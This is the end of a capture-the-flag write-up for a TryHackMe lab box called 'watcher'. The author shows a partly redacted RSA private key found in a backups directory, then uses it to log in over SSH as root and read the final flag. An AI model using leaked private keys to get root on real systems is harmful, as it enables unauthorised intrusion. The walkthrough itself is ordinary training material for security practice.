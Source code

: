 ```terminal
UbBVnyUC1XcvRfQvFJyzgccwExEr6glJKOj64bMCgYEAlxmx/jxKZLTWzxxb9V4D
SPs+NyJeJMqMHVL4VTGh2vnFuTuq2cIC4m53zn+xJ7ezpb1rA85JtD2gnj6nSr9Q
A/HbjJuZKwi8uebquizot6uFBzpouPSuUzA8s8xHVI6edV1HC8ip4JmtNPAWHkLZ
gLLVOk0gz7dvC3hGc12BrqcCgYAhFji34iLCi3Nc1lsvL4jvSWnLeMXnQbu6P+Bd
bKiPwtIG1Zq8Q4Rm6qqC9cno8NbBAtiD6/TCX1kz6iPq8v6PQEb2giijeYSJBYUO
kJEpEZMF308Vn6N6/Q8DYavJVc+tm4mWcN2mYBzUGQHmb5iJjkLE2f/TwYTg2DB0
mEGDGwKBgQCh+UpmTTRx4KKNy6wJkwGv2uRdj9rta2X5pzTq2nEApke2UYlP5OLh
/6KHTLRhcp9FmF9iKWDtEMSQ8DCan5ZMJ7OIYp2RZ1RzC9Dug3qkttkOKAbccKn5
4APxI1DxU+a2xXXf02dsQH0H5AhNCiTBD7I5YRredactedredacted==
-----END RSA PRIVATE KEY-----
will@watcher:/opt/backups$
```

When we decode the file, we see that it is a SSH private key, let's copy it to our machine, give it the right permissions, and try to connect with it.

```terminal
 ┌──(sirius㉿kali)-[~/CTF/THM/watcher]
└─$ chmod 400 id_rsa
 ┌──(sirius㉿kali)-[~/CTF/THM/watcher]
└─$ ssh -i id_rsa root@10.10.10.10                                                                                                                    255 ⨯
Welcome to Ubuntu 18.04.5 LTS (GNU/Linux 4.15.0-128-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Thu Jan 13 12:28:44 UTC 2022

  System load:  0.0                Processes:             124
  Usage of /:   22.5% of 18.57GB   Users logged in:       0
  Memory usage: 37%                IP address for eth0:   10.10.18.205
  Swap usage:   0%                 IP address for lxdbr0: 10.14.179.1


33 packages can be updated.
0 updates are security updates.


Last login: Thu Dec  3 03:25:38 2020
root@watcher:~# ls
flag_7.txt
root@watcher:~#
```

Great, we are root now. This was an amazing machine, hope you have enjoyed it as much as i did, and see you in the next hack.
